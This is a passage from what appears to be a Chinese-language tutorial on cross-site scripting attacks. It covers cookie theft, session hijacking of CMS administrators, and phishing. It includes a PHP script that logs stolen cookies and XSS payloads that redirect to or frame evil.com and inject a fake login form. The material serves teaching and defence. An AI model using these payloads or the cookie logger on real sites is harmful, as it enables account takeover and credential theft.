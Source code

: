 ```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

攻擊者在獲取到 Cookies 之後，通過修改本機瀏覽器的 Cookies，即可登錄受害者的賬戶。

### 會話劫持

由於使用 Cookies 存在一定的安全缺陷，因此，開發者開始使用一些更爲安全的認證方式，如 Session。在 Session 機制中，客戶端和服務端通過標識符來識別用戶身份和維持會話，但這個標識符也有被其他人利用的可能。會話劫持的本質是在攻擊中帶上了 Cookies 併發送到了服務端。

如某 CMS 的留言系統存在一個存儲型 XSS 漏洞，攻擊者把 XSS 代碼寫進留言信息中，當管理員登錄後臺並查看是，便會觸發 XSS 漏洞，由於 XSS 是在後臺觸發的，所以攻擊的對象是管理員，通過注入 JavaScript 代碼，攻擊者便可以劫持管理員會話執行某些操作，從而達到提升權限的目的。

比如，攻擊者想利用 XSS 添加一個管理員賬號，只需要通過之前的代碼審計或其他方式，截取到添加管理員賬號時的 HTTP 請求信息，然後使用 XMLHTTP 對象在後臺發送一個 HTTP 請求即可，由於請求帶上了被攻擊者的 Cookies，並一同發送到服務端，即可實現添加一個管理員賬戶的操作。

### 釣魚

-   重定向釣魚

    把當前頁面重定向到一個釣魚頁面。

    ```
    http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
    ```

-   HTML 注入式釣魚

    使用 XSS 漏洞注入 HTML 或 JavaScript 代碼到頁面中。

    ```
    http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>
    ```

該段代碼會在正常頁面中嵌入一個 Form 表單。

-   iframe 釣魚

    這種方式是通過 `<iframe>` 標籤嵌入遠程域的一個頁面實施釣魚。

    ```
    http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
    ```

-   Flash 釣魚

    將構造好的 Flash 文件傳入服務器，在目標網站用 `<object>` 或 `<embed>` 標籤引用即可。
